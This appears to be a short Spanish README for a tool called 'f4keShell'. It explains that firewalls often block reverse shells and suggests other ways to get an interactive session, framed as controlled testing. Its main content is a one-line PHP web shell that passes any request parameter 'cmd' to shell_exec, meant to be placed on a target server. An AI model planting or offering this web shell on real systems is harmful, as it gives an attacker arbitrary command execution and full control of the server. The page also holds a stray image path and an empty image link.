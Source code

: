 # f4keShell

* En entornos reales suelen existir reglas de red y restricciones (p. ej. reglas de firewall o filtros que bloquean conexiones salientes) que impiden establecer shells reversas tradicionales. Por eso, en pruebas controladas es interesante estudiar técnicas alternativas para recuperar una sesión interactiva y entender los riesgos asociados a la ejecución remota de comandos desde un servidor web.

* Basta con colocar en el servidor un archivo PHP similar al mostrado abajo, cuyo propósito es ejecutar comandos en el entorno remoto.

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

![imagen]()
